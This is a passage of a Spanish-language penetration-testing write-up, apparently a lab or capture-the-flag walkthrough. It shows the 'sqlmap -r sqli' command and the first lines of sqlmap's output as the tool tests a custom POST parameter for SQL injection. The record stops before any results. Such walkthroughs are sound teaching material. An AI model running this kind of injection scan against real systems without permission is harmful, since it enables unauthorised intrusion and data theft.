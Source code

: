 ![Write-up Image](images/Screenshot_15.png)

Rápidamente `sqlmap` detecta que es vulnerable a SQLi y nos reporta información.
```console
sqlmap -r sqli
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.2#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:00:01 /2024-12-06/

[03:00:01] [INFO] parsing HTTP request from 'sqli'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
JSON data found in POST body. Do you want to process it? [Y/n/q] n
[03:00:02] [INFO] flushing session file
[03:00:02] [INFO] testing connection to the target URL
[03:00:02] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:00:02] [INFO] testing if the target URL content is stable
[03:00:03] [INFO] target URL content is stable
[03:00:03] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[03:00:03] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[03:00:03] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[03:00:03] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
```